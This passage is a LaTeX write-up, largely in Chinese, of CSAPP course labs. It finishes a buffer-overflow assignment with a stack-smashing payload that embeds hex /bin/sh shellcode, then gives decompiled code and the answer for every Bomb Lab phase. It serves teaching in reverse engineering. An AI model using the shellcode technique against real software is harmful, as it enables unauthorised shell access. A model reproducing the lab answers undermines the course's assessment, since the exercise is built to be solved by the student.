既然我们可以执行任意汇编代码,那我们为什么不试着拿Shell权限呢?首先我们需要找到一个放置Shellcode的地方。

回到我们前面给到的这个结构: shellcode + padding + ebp + shellcode's start addr 

\texttt{padding + ebp}一共是24Bytes,但是考虑到Shellcode执行阶段可能遇到的 \texttt{push}指令,更好的选择其实是放在 \texttt{shellcode's start addr}的后面。

这时我们的payload就变成了下面的结构:
% \footnote{利用 \texttt{int 0x80}执行了 \texttt{/bin/sh}的一段Shellcode}\href{https://shell-storm.org/shellcode/files/shellcode-841.html}{Shellcode}


padding + ebp + shellcode's start addr + shellcode

在网上找一个小一点的Shellcode\footnote{利用int 0x80执行了/bin/sh的一段\href{https://shell-storm.org/shellcode/files/shellcode-841.html}{Shellcode}},我们就得到了我们最终的Payload:

00000000 00000000 00000000 00000000 00000000 00000000 EBP START\_ADDR 31C9F7E1 B00B5168 2F2F7368 682F6269 6E89E3CD 80

\begin{figure}[h]
    \centering
    
\includegraphics[width=1\textwidth]{images/final_sh_shellcode}
    \caption{彩蛋:拿到shell后直接输出`getbuf returned 0xdeadbeef'}
\end{figure}

\begin{lstlisting}[style=DOS]
    # echo getbuf returned 0xdeadbeef
    getbuf returned 0xdeadbeef
\end{lstlisting}

\subsection{Summary}

首先声明一点,这个Assignment在CSAPP第三版中已经没有了。所以 \texttt{bufbomb.c}上面的参考价值不大。尤其是不要按照它上面的编译指令去编译: \texttt{-Og}和 \texttt{-O2}会把程序结构搅乱到根本做不了,没有-fno-stack-protector和-no-pie就是字面意思上的做不了这道题。

然后谈谈我个人对这个Lab(Assignment)的理解:我并不觉得这个Lab(Assignment)很好。第一点就是CSAPP 2nd到CSAPP 3rd编辑的主旋律就是x86tox86-64,整个Lab(Assignment)在设计的时候带着IA32的思维,不难理解为什么放在现在颇有鸡肋之感。第二点是没有难度梯度,思维难度大且调试难度高的题目如果没有checkpoint很容易让人放弃。第三点就是与Buffer Lab冲突,而且Buffer Lab是它的上位替补,这个应该做过Buffer Lab的人都深有体会————深入浅出,让人醍醐灌顶。

\section{Lab3: Bomb Lab}

Above all, I need to declare that I used the newest version of \href{http://csapp.cs.cmu.edu/3e/bomblab.pdf}{Bomb Lab}, which means it differs in many ways from the 200X version of this lab. The most notable difference is that is uses x64 architecture.

\begin{lstlisting}[style=DOS]
    curl http://csapp.cs.cmu.edu/3e/bomb.tar --output bomb.tar
    tar xvf bomb.tar
\end{lstlisting}

\subsection{Initialize}

\subsubsection{filestream}

\begin{lstlisting}[language=c]
    if ( argc == 1 )
    {
        infile = (FILE *)stdin;
    }
    else
    {
        v3 = argv;
        if ( argc != 2 )
        {
            __printf_chk(1LL, "Usage: %s [<input_file>]\n", *argv);
            exit(8);
        }
        *(_QWORD *)&argc = argv[1];
        argv = (const char **)"r";
        infile = fopen(*(const char **)&argc, "r");
        if ( !infile )
        {
            __printf_chk(1LL, "%s: Error: Couldn't open %s\n", *v3, v3[1]);
            exit(8);
        }
    }
\end{lstlisting}

如果运行程序的时候有参数,那么将参数视为文件地址,然后把输入流重定向至文件读入流。

这意味着我们可以使用 \texttt{./bomb payload}来检验我们的payload了。(虽然原来也可以 \texttt{./bomb < payload}就是了)

\subsubsection{bind}

 \texttt{initialize\_bomb}函数把SIGINT信号(一般来自于Ctrl+C)绑定到了 \texttt{signal\_handler}函数上面。\footnote{\href{https://man7.org/linux/man-pages/man3/siginterrupt.3.html}{Linux SIGINT Manual Page}}

\subsection{Phase1}

\begin{lstlisting}[language=c, caption=Discompile by IDA Pro]
    __int64 __fastcall phase_1(__int64 a1)
    {
    __int64 result; // rax

    result = strings_not_equal(a1, "Border relations with Canada have never been better.");
    if ( (_DWORD)result )
        explode_bomb();
    return result;
    }
\end{lstlisting}

因为源文件并没有去除符号表,因此我们可以猜测string\_not\_equal函数在arg1和arg2相等时返回1。

所以Phase1的Payload就是 Border relations with Canada have never been better。

\subsection{Phase2}

\begin{lstlisting}[language=c, caption=Discompile by IDA Pro]
    __int64 __fastcall read_six_numbers(__int64 a1, __int64 a2)
    {
        __int64 result; // rax
        result = __isoc99_sscanf(a1, &unk_4025C3, a2, a2 + 4, a2 + 8, a2 + 12, a2 + 16, a2 + 20);
        if ( (int)result <= 5 )
            explode_bomb();
        return result;
    }
    __int64 __fastcall phase_2(__int64 a1)
    {
        __int64 result; // rax
        char *v2; // rbx
        int v3; // [rsp+0h] [rbp-38h] BYREF
        char v4; // [rsp+4h] [rbp-34h] BYREF
        char v5; // [rsp+18h] [rbp-20h] BYREF

        read_six_numbers(a1, &v3);
        if ( v3 != 1 )
            explode_bomb();
        v2 = &v4;
        do
        {
            result = (unsigned int)(2 * *((_DWORD *)v2 - 1));
            if ( *(_DWORD *)v2 != (_DWORD)result )
                explode_bomb();
            v2 += 4;
        }
        while ( v2 != &v5 );
        return result;
    }
\end{lstlisting}

观察后发现:

\begin{enumerate}
    \item  \texttt{unk\_4025C3}处内存布局为25 64 20 25 64 20 25 64 20 25 64 20 25 64 20 25 64 00。考虑到字符串的 \\x00截断, \texttt{unk\_4025C3}为 \%d \%d \%d \%d \%d \%d。
    \item 翻阅\href{https://en.cppreference.com/w/c/io/fscanf}{cppreference}可以发现 \texttt{sscanf}会将给定的第一个参数视为缓冲区,从此处读取数据。
    \item 只有把 \texttt{a2}视为一个长度为6的int数组才能解释这两段代码。
\end{enumerate}

这是修改后的代码:
\begin{lstlisting}[language=c, caption=Discompile by IDA Pro]
    __int64 __fastcall phase_2(__int64 a1)
    {
        __int64 result; // rax
        int *v2; // rbx
        int v3[6]; // [rsp+0h] [rbp-38h] BYREF
        char v4; // [rsp+18h] [rbp-20h] BYREF

        read_six_numbers(a1, v3);
        if ( v3[0] != 1 )
            explode_bomb();
        v2 = &v3[1];
        do
        {
            result = (unsigned int)(2 * *(v2 - 1));
            if ( *v2 != (_DWORD)result )
                explode_bomb();
            ++v2;
        }
        while ( v2 != (int *)&v4 );
        return result;
    }
\end{lstlisting}

1 DWORD = 4 BYTE\footnote{\href{https://www.cs.uaf.edu/2004/fall/cs301/notes/node15.html}{Bits, Bytes, Words}}

解释一句,DWORD基本上可以看作unsigned int。

条件就是必须满足$ v_2[i] = v_2[i-1] $。

显然,在v2指针遍历完v3后就会移动至v4,循环结束。

所以Phase2的Payload就是 1 2 4 8 16 32。

\subsection{Phase3}

\begin{lstlisting}[language=c, caption=Discompile by IDA Pro]
    __int64 __fastcall phase_3(__int64 a1)
    {
        __int64 result; // rax
        int v2; // [rsp+8h] [rbp-10h] BYREF
        int v3; // [rsp+Ch] [rbp-Ch] BYREF

        if ( (int)__isoc99_sscanf(a1, "%d %d", &v2, &v3) <= 1 )
            explode_bomb();
        switch ( v2 )
        {
            case 0:
                result = 207LL;
                break;
            case 1:
                result = 311LL;
                break;
            case 2:
                result = 707LL;
                break;
            case 3:
                result = 256LL;
                break;
            case 4:
                result = 389LL;
                break;
            case 5:
                result = 206LL;
                break;
            case 6:
                result = 682LL;
                break;
            case 7:
                result = 327LL;
                break;
            default:
                explode_bomb();
                return result;
        }
        if ( (_DWORD)result != v3 )
            explode_bomb();
        return result;
    }
\end{lstlisting}

这个Phase的本意是让我们逆向Assembly。而在汇编代码中,switch ... case语句由跳转表实现,需要一定基础才能逆向出来。

Payload任选一个: \texttt{0 207}。

\subsection{Phase4}

\begin{lstlisting}[language=c]
    __int64 __fastcall phase_4(__int64 a1)
    {
        __int64 result; // rax
        unsigned int v2; // [rsp+8h] [rbp-10h] BYREF
        int v3; // [rsp+Ch] [rbp-Ch] BYREF

        if ( (unsigned int)__isoc99_sscanf(a1, "%d %d", &v2, &v3) != 2 || v2 > 14 )
            explode_bomb();
        result = func4(v2, 0LL, 14LL);
        if ( (_DWORD)result || v3 )
            explode_bomb();
        return result;
    }
\end{lstlisting}

显然我们要满足:

\begin{enumerate}
    \item $ v_2 \leq 14 $
    % \item $ func4(v_2, 0, 14) = 0 $ & $ v_3=0 $
\end{enumerate}

接下来让我们分析 \texttt{func4}。

\begin{lstlisting}[language=c]
    __int64 __fastcall func4(int a1, int a2, int a3)
    {
        int v3; // ecx
        __int64 result; // rax

        v3 = (a3 - a2) / 2 + a2;
        if ( v3 > a1 )
            return 2 * (unsigned int)func4(a1, a2, v3 - 1);
        result = 0LL;
        if ( v3 < a1 )
            result = 2 * (unsigned int)func4(a1, v3 + 1, a3) + 1;
        return result;
    }
\end{lstlisting}

显然在$ v_3=a_1 $ 的情况下函数 `func4`可以直接返回0。

此时$ a_1 = v_3 = \lfloor{\frac{(a_3 + a_2)}{2}}\rfloor=\frac{0+14}{2}=7 $。

因此这个Phase的Payload就是 \texttt{7 0}。

另外一种解法是,考虑到v2可能的取值空间很小,我们可以用爆破的方法解出这道题。

\subsection{Phase5}

\begin{lstlisting}[language=c]
    unsigned __int64 __fastcall phase_5(__int64 a1)
    {
        __int64 i; // rax
        char v3[8]; // [rsp+10h] [rbp-18h] BYREF
        unsigned __int64 v4; // [rsp+18h] [rbp-10h]

        v4 = __readfsqword(0x28u);
        if ( (unsigned int)string_length((_BYTE *)a1) != 6 )
            explode_bomb();
        for ( i = 0LL; i != 6; ++i )
            v3[i] = array_3449[*(_BYTE *)(a1 + i) & 0xF];
        v3[6] = 0;
        if ( (unsigned int)strings_not_equal(v3, "flyers") )
            explode_bomb();
        return __readfsqword(0x28u) ^ v4;
    }
\end{lstlisting}

我们能够分析出两点:

\begin{enumerate}
    \item a1的长度应该是6
    \item 对于每个a1中的字符,取其ASCII码的最低四位作为索引,取 array\_3449数组的对应位数组成新的字符串,该字符串必须为 flyers。
\end{enumerate}

导出array\_3449数组的值后写出exp。

\begin{lstlisting}[language=python]
    from string import ascii_letters, digits
    array_3449 = [
      0x6D, 0x61, 0x64, 0x75, 0x69, 0x65, 0x72, 0x73, 0x6E, 0x66, 
      0x6F, 0x74, 0x76, 0x62, 0x79, 0x6C
    ]
    target_str = "flyers"
    
    for chrs in target_str:
        for num in array_3449:
            if ord(chrs) != num:
                continue;
            for i in range(10):
                if chr(array_3449.index(num) + i * (0xf + 1)) in ascii_letters + digits:
                    print(chr(array_3449.index(num) + i * (0xf + 1)), end="")
                    break
\end{lstlisting}

Phase5的payload为 9ON567。

\subsection{Phase6}

我们可以将函数 \texttt{phase\_6}分为四个sections。

\subsubsection{Section1}

\begin{lstlisting}[language=c]
    v1 = v15;
    read_six_numbers(a1, v15);
    v2 = 0;
    while ( 1 )
    {
        if ( (unsigned int)(*v1 - 1) > 5 )
            explode_bomb();
        if ( ++v2 == 6 )
            break;
        v3 = v2;
        do
        {
            if ( *v1 == v15[v3] )
            explode_bomb();
            ++v3;
        }
        while ( v3 <= 5 );
        ++v1;
    }
\end{lstlisting}

分析出以下点:

\begin{itemize}
    \item 输入为6个数组,存储在v15数组中。
    \item v2为循环的标定参数,在达到6时结束循环
    \item v15数组中每个数字不能大于6,也就是必须小于等于6
    \item 对于v15数组中每个数,不能与后面的数相等
\end{itemize}

\subsubsection{Section2}

\begin{lstlisting}[language=c]
    v4 = (char *)v15;
    do
    {
        *(_DWORD *)v4 = 7 - *(_DWORD *)v4;
        v4 += 4;
    }
    while ( v4 != &v16 );
\end{lstlisting}

将v15数组中每个数变成7减去它自身。

\subsubsection{Section3}

\begin{lstlisting}[language=c]
    for ( i = 0LL; i != 24; i += 4LL )
    {
        v8 = v15[i / 4];
        if ( v8 <= 1 )
        {
            v6 = &node1;
        }
        else
        {
            v7 = 1;
            v6 = &node1;
            do
            {
            v6 = (_QWORD *)v6[1];
            ++v7;
            }
            while ( v7 != v8 );
        }
        *(__int64 *)((char *)&v17 + 2 * i) = (__int64)v6;
    }
\end{lstlisting}

\begin{lstlisting}[language=c]
    .data:00000000006032D0 node1           dd 14Ch                 ; DATA XREF: phase_6:loc_401183↑o
    .data:00000000006032D0                                         ; phase_6+B0↑o
    .data:00000000006032D4                 dd 1
    .data:00000000006032D8                 dd 6032E0h
    .data:00000000006032DC                 dd 0
    .data:00000000006032E0                 public node2
    .data:00000000006032E0 node2           dd 0A8h
    .data:00000000006032E4                 dd 2
    .data:00000000006032E8                 dd 6032F0h
    .data:00000000006032EC                 dd 0
    .data:00000000006032F0                 public node3
    .data:00000000006032F0 node3           dd 39Ch
    .data:00000000006032F4                 dd 3
    .data:00000000006032F8                 dd 603300h
    .data:00000000006032FC                 dd 0
    .data:0000000000603300                 public node4
    .data:0000000000603300 node4           dd 2B3h
    .data:0000000000603304                 dd 4
    .data:0000000000603308                 dd 603310h
    .data:000000000060330C                 dd 0
    .data:0000000000603310                 public node5
    .data:0000000000603310 node5           dd 1DDh
    .data:0000000000603314                 dd 5
    .data:0000000000603318                 dd 603320h
    .data:000000000060331C                 dd 0
    .data:0000000000603320                 public node6
    .data:0000000000603320 node6           dd 1BBh
    .data:0000000000603324                 dd 6
    .data:0000000000603328                 dd 0
    .data:000000000060332C                 dd 0
\end{lstlisting}

我们可以看到,node的结构很像一个结构体,遵循着下面的结构:

``data + id + next\_node + 0''

接下来把  \texttt{node[v8[i]]}的地址保存在 \texttt{v17}中。

\subsubsection{Section4}

\begin{lstlisting}[language=c]
    for ( j = v17; ; j = v12 )
    {
        v12 = *(_QWORD *)v10;
        *(_QWORD *)(j + 8) = *(_QWORD *)v10;
        v10 += 8;
        if ( v10 == &v19 )
            break;
    }
    *(_QWORD *)(v12 + 8) = 0LL;
\end{lstlisting}

将后一个node的指针指向前一个node,也就是将node的顺序倒过来了。

\begin{lstlisting}[language=c]
    v13 = 5;
    do
    {
        result = **(unsigned int **)(v9 + 8);
        if ( *(_DWORD *)v9 < (int)result )
            explode_bomb();
        v9 = *(_QWORD *)(v9 + 8);
        --v13;
    }
    while ( v13 );
\end{lstlisting}

如果(按照node的顺序),前者比后者的data小,那么炸弹爆炸。

我们将node按照data做一个排序:

``0x0A8 < 0x14C < 0x1BB < 0x1DD < 0x2B3 < 0x39C''

``2 < 1 < 6 < 5 < 4 < 3''

这是正确的顺序;逆转之后变成了

``3 4 5 6 1 2''

与7减去自身后变成了:

``4 3 2 1 5 6''

这就是Phase6的Payload。

\section{Summary}

首先,这道题最有利于锻炼自己逆向能力的解题方法是对着汇编代码硬磕。比如Phase3的switch跳转表:CSAPP中专门花了~1页来讲跳转表的机制以及为什么可以起到优化的效果。而IDA Pro\footnote{\href{https://www.hex-rays.com/ida-pro}{IDA Pro - Hex Rays}}无疑让这个过程缺少了不少乐趣。

其次,逆向的过程中也用到了很多tricks————比如指针乱跳、内存操作等。CSAPP Labs作为CSAPP稳坐CS神课第一把交椅的重要原因,其中的这个Bomb Lab更是让人印象深刻。可惜作为self-learning使用的bomb版本没有autoGrader,没有爆炸一次就会减二分之一分数的惩罚,让我们在拆弹的过程中少了很多惊险 \& 刺激。


\end{document}
